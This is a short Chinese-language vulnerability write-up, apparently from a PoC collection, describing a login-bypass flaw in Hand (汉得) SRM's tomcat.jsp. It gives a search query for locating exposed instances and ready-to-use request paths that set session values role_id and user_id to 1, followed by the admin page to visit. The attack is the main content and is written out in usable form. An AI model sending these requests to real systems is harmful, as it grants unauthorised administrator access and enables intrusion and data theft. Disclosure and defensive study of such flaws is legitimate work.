 # 汉得SRM tomcat.jsp 登陆绕过漏洞

# 汉得SRM tomcat.jsp 登陆绕过漏洞

## 漏洞描述

汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限

## 漏洞影响

汉得SRM

## 网络测绘

```
web.body="汉得SRM"
```

## 漏洞复现

登陆页面

![image-20230828164434474](images/image-20230828164434474.png)

验证POC (Tomcat session操控)

```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

![image-20230828164451105](images/image-20230828164451105.png)

访问跳转后台

```
/main.screen
```

